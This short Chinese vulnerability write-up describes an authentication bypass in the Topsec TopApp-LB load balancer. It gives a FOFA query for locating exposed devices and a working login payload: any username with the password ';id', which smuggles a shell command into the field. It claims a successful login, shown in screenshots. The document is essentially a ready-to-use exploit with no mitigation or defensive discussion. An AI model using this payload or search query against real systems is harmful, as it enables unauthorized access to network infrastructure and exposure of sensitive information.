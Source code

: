 # 天融信 TopApp-LB系统 任意登陆

## 漏洞描述

天融信负载均衡TopApp-LB系统无需密码可直接登陆，查看敏感信息

## 影响版本

```
天融信负载均衡TopApp-LB
```

## FOFA

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

在登录页面中输入，账号:**任意账号**  密码:**;id**



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091919361.png)



成功登录



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091919022.png)